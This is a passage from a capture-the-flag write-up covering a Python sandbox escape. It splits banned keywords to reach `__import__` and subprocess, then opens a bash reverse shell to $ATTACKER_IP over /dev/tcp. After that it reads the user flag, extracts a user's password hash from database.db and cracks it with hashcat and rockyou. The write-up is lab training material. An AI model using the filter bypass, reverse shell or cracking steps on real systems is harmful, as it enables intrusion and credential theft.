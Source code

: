 Looks like we can't import the os module... Let's try with another simple module :
![[screenshot_3.png]]

We can't import any module. Let's try to import them using the `__import__` builtin function :
![[screenshot_4.png]]

It still fail. Let's try a little python trick. We will use the `globals()` function to get all the global symbol table, which contains the `__import__` function in the `__builtins__` table :
![[screenshot_5.png]]

It still detect the `import` keyword, except if we split the word into 2 strings :
![[screenshot_6.png]]

Perfect ! Let's make a reverse-shell using this. To bypass all banned words, we will use the module "subprocess" which can run bash commands using the `check_output` function :
```
module = globals()["__buil" + "tins__"]["__im" + "port__"]("sub" + "process")

output = module.check_output("bash -c 'bash -i >& /dev/tcp/$ATTACKER_IP/9001 0>&1'", shell=True)
print(output)
```

You can probably also use the `os.system` function to run the reverse-shell.

Using this, we got a reverse-shell as "app-production" :
```bash
$ whoami
app-production
```

## Flag user.txt

By now, we can directly get the user.txt flag :
```bash
$ cat ~/user.txt
...
```

## Flag root.txt

To find the root flag, we will have to search in the app folder, where a database.db file is available :
```bash
$ cd app/instance/
$ ls
database.db
```

By opening this file in the SQL Viewer Online website, we can select all the users and find the user Martin, which is also a user on the machine :
![[screenshot_7.png]]

We can crack his password using hashcat :
```bash
$ hashcat -a 0 -m 0 martin_hash_pass /opt/rockyou.txt

...

Dictionary cache hit:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster       
                                                          
```
